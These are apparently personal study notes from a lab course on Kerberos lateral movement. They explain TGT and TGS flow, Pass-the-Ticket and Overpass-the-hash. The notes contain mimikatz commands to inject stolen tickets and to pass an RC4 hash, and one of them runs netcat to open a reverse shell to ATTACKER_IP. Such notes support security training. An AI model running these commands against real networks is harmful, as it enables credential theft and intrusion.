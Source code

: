 ![[Pasted image 20241029115017.png]]
2. 
When users want to connect to a service on the network like a share, website or database, they will use their TGT to ask the KDC for a **Ticket Granting Service** (TGS). TGS are tickets that allow connection only to the specific service for which they were created. To request a TGS, the user will send his username and a timestamp encrypted using the Session Key, along with the TGT and a **Service Principal Name** (SPN), which indicates the service and server name they intend to access.
As a result, the KDC will send us the TGS and a **Service Session Key**, which we will need to authenticate to the service we want to access. The TGS is encrypted using the **Service Owner Hash**. The Service Owner is the user or machine account under which the service runs. The TGS contains a copy of the Service Session Key on its encrypted contents so that the Service Owner can access it by decrypting the TGS.
![[Pasted image 20241029115546.png]]
3. 
The TGS can then be sent to the desired service to authenticate and establish a connection. The service will use its configured account's password hash to decrypt the TGS and validate the Service Session Key.
![[Pasted image 20241029120203.png]]


## Pass-the-Ticket
Sometimes it is possible to extract [[Mimikatz#Extracting Kerberos tickets and Session Keys from LSASS memory|Kerberos tickets and Session Keys]] from LSASS memory using mimikatz. 
While mimikatz can extract any TGT or TGS available from the memory of the LSASS process, most of the time, we'll be interested in TGTs as they can be used to request access to any services the user is allowed to access. At the same time, TGSs are only good for a specific service. Extracting **TGT**s will require us to have **administrator**'s credentials, and extracting **TGS**s can be done with a **low-privileged** account (only the ones assigned to that account).

Once we have extracted the desired ticket, we can inject the tickets into the current session with the following
```mimikatz
kerberos::ptt [0;427fcd5]-2-0-40e10000-Administrator@krbtgt-ZA.DOMAIN.COM.kirbi
```
Injecting tickets in our own session doesn't require administrator privileges. After this, the tickets will be available for any tools we use for lateral movement. To check if the tickets were correctly injected, we can use the `klist` command on cmd or `kerberos::list` inside mimikatz.

## Overpass-the-hash / Pass-the-Key
This kind of attack is similar to PtH but applied to Kerberos networks.
When a user requests a TGT, they send a timestamp encrypted with an encryption key derived from their password. The algorithm used to derive this key can be either DES (Disabled by default on current Windows versions), RC4, AES128, AES256, depending on the installed Windows version and Kerberos configuration. If we have any of those keys, we can ask the KDC for a TGT without requiring the actual password, hence the name **Pass-the-Key** (PtK).
Depending on the available [[Mimikatz#Extracting Kerberos Encryption keys from LSASS memory|Kerberos encryption keys]], we can run the following commands on mimikatz to get a reverse shell via PtK
### If we have the RC4 hash
```mimikatz
sekurlsa::pth /user:Administrator /domain:za.tryhackme.com /rc4:96ea24eff4dff1fbe13818fbf12ea7d8 /run:"c:\tools\nc64.exe -e cmd.exe ATTACKER_IP 1337"
```
Note that when using RC4, the key will be equal to the NTLM hash of a user. This means that if we could extract the NTLM hash, we can use it to request a TGT as long as RC4 is one of the enabled protocols. This particular variant is known as **Overpass-the-Hash** (OPtH)
